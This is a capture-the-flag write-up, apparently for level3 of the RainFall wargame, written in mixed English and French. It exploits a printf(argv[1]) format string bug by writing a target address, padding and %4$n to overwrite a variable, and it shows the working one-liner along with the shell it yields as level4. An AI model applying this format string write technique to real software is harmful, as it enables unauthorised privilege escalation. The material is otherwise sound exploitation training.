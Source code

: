 
0x0804988c --> \x8c\x98\x04\x08
0804988c --> location of m -> 4
||| --> 64 to write so we have to write 60 |
%4 --> offset

||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
0804988c
\x8c\x98\x04\x08||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||%4$n%x

addres$ns%
format string vulnerability

```bash
(python -c 'print ("\x8c\x98\x04\x08" + "|" * 60 + "%4$n")'; cat) | ./level3
```

printf(argv[1]);

printf("%x %x %x %x");


--------------------------------------

## Payload

Addresse cible \x8c\x98\x04\x08 + 
number of character to write (= value to overwrite addresse cible - 4 because address itself is 4 characters) +
"%4$n" (%n -> write in memory, 4$ --> jump 4eme emplacement = debut du buffer car char* = 4 bytes en 32bits)

`(python -c 'print ("\x8c\x98\x04\x08" + "|" * 60 + "%4$n")'; cat) | ./level3`

```console
level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08"+"|" * 60 + "%4$n")'; cat) | ./level3
�||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
Wait what?!
whoami
level4
```